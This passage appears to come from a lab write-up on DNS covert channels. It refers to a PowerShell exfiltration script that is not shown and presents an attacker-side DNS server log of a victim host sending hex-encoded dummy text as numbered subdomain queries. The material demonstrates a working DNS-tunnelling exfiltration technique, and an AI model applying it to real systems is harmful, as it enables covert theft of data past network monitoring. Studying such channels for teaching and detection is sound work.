 <div>
<center><i> Listing 5. PowerShell script used for data infiltration. </i></center><br>
</div>
</div>

### 3.3 Validation
<div style="text-align: justify">

The results of execution of the script used for data exfiltration are shown in Figure 1 (victim side) and Listing 6 (attacker side).
![](https://codimd.s3.shivering-isles.com/demo/uploads/upload_ba4258a7bacfae6ae11e04528a033f3c.png)
    
<div>
<center><i> Figure 1. DNS queries sent from vitcim computer. </i></center><br>
</div>


```
24-Oct-2021 15:17:34.551 client @0x7f0242ea2770 victim_ip#63047 (start.scs.kowercyjne.kanaly): query: start.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:34.629 client @0x7f02400a1ca0 victim_ip#53332 (6F72656D20497073756D2069732073696D706C792064756D6D7920.0.scs.kowercyjne.kanaly): query: 6F72656D20497073756D2069732073696D706C792064756D6D7920.0.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:34.675 client @0x7f0242e939f0 victim_ip#56448 (74657874206F6620746865207072696E74696E6720616E64207479.1.scs.kowercyjne.kanaly): query: 74657874206F6620746865207072696E74696E6720616E64207479.1.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:34.726 client @0x7f0242ea2770 victim_ip#55337 (706573657474696E6720696E6475737472792E204C6F72656D2049.2.scs.kowercyjne.kanaly): query: 706573657474696E6720696E6475737472792E204C6F72656D2049.2.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:34.773 client @0x7f02400a1ca0 victim_ip#53332 (7073756D20686173206265656E2074686520696E64757374727927.3.scs.kowercyjne.kanaly): query: 7073756D20686173206265656E2074686520696E64757374727927.3.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:34.820 client @0x7f0242e939f0 victim_ip#60723 (73207374616E646172642064756D6D792074657874206576657220.4.scs.kowercyjne.kanaly): query: 73207374616E646172642064756D6D792074657874206576657220.4.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:34.869 client @0x7f0242ea2770 victim_ip#54743 (73696E6365207468652031353030732C207768656E20616E20756E.5.scs.kowercyjne.kanaly): query: 73696E6365207468652031353030732C207768656E20616E20756E.5.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:34.917 client @0x7f02400a1ca0 victim_ip#58029 (6B6E6F776E207072696E74657220746F6F6B20612067616C6C6579.6.scs.kowercyjne.kanaly): query: 6B6E6F776E207072696E74657220746F6F6B20612067616C6C6579.6.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:34.963 client @0x7f0242e939f0 victim_ip#53332 (206F66207479706520616E6420736372616D626C65642069742074.7.scs.kowercyjne.kanaly): query: 206F66207479706520616E6420736372616D626C65642069742074.7.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.011 client @0x7f0242ea2770 victim_ip#65026 (6F206D616B65206120747970652073706563696D656E20626F6F6B.8.scs.kowercyjne.kanaly): query: 6F206D616B65206120747970652073706563696D656E20626F6F6B.8.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.061 client @0x7f02400a1ca0 victim_ip#58710 (2E20497420686173207375727669766564206E6F74206F6E6C7920.9.scs.kowercyjne.kanaly): query: 2E20497420686173207375727669766564206E6F74206F6E6C7920.9.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.104 client @0x7f0242e939f0 victim_ip#63807 (666976652063656E7475726965732C2062757420616C736F207468.10.scs.kowercyjne.kanaly): query: 666976652063656E7475726965732C2062757420616C736F207468.10.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.153 client @0x7f0242ea2770 victim_ip#55059 (65206C65617020696E746F20656C656374726F6E69632074797065.11.scs.kowercyjne.kanaly): query: 65206C65617020696E746F20656C656374726F6E69632074797065.11.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.202 client @0x7f02400a1ca0 victim_ip#52262 (73657474696E672C2072656D61696E696E6720657373656E746961.12.scs.kowercyjne.kanaly): query: 73657474696E672C2072656D61696E696E6720657373656E746961.12.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.250 client @0x7f0242e939f0 victim_ip#56841 (6C6C7920756E6368616E6765642E2049742077617320706F70756C.13.scs.kowercyjne.kanaly): query: 6C6C7920756E6368616E6765642E2049742077617320706F70756C.13.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.303 client @0x7f0242ea2770 victim_ip#51727 (61726973656420696E207468652031393630732077697468207468.14.scs.kowercyjne.kanaly): query: 61726973656420696E207468652031393630732077697468207468.14.scs.kowercyjne.kanaly IN A + (server_ip)
```